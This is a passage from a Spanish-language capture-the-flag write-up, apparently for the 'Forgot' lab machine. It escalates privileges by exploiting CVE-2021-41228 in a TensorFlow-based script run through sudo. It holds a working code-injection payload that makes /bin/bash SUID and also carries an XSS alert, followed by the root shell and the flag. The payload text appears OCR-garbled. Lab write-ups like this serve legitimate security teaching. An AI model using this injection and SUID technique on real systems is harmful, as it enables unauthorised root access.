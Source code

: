 ```null
#1 DecisionTreeClassifier
ynew1 = loaded_model1.predict(Xnew)
#2 SVC
ynew2 = loaded_model2.predict(Xnew)
#3 GaussianNB
ynew3 = loaded_model3.predict(Xnew)
#4 KNeighborsClassifier
ynew4 = loaded_model4.predict(Xnew)
#5 RandomForestClassifier
ynew5 = loaded_model5.predict(Xnew)
#6 MLPClassifier
ynew6 = loaded_model6.predict(Xnew)

# show the sample inputs and predicted outputs
def assessData(i):
    score = ((.175*ynew1[i])+(.15*ynew2[i])+(.05*ynew3[i])+(.075*ynew4[i])+(.25*ynew5[i])+(.3*ynew6[i]))
    if score >= .5:
        try:
                preprocess_input_exprs_arg_string(data[i],safe=False)
        except:
                pass

for i in range(len(Xnew)):
     t = threading.Thread(target=assessData, args=(i,))
#     t.daemon = True
     t.start()
```

Se está empleando la liberería ```tensorflow```. En este [artículo](https://stackoverflow.com/questions/38549253/how-to-find-which-version-of-tensorflow-is-installed-in-my-system) indican como extraer la versión

```null
diego@forgot:~$ python3 -c 'import tensorflow as tf; print(tf.__version__)' 2>/dev/null
2.6.3
```

Busco por vulnerabilidades asociadas en [Synk](https://security.snyk.io/package/pip/tensorflow). Parece ser vulnerable al [CVE-2021-41228](https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408). Encuentro un POC en [Github](https://github.com/advisories/GHSA-75c9-jrh4-79mc). Modifico la bash para que sea SUID. Se puede hacer a través del formulario, ya que se conecta a esa misma base de datos

```null
Pwned=Exec("""Import Os\Nos.System("Chmod 4755 /Bin/Bash")""");#<Script>Alert(1)</Script>
```

Ejecuto y puedo ver la segunda flag

```null
diego@forgot:~$ sudo /opt/security/ml_security.py
2023-06-13 14:37:07.491579: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-06-13 14:37:07.491963: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
chmod: invalid mode: ‘u’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘u’
Try 'chmod --help' for more information.
diego@forgot:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ bash -p
bash-5.0# cat /root/root.txt
e328645fd660e814a9e55ac5f6ac3dcb
```
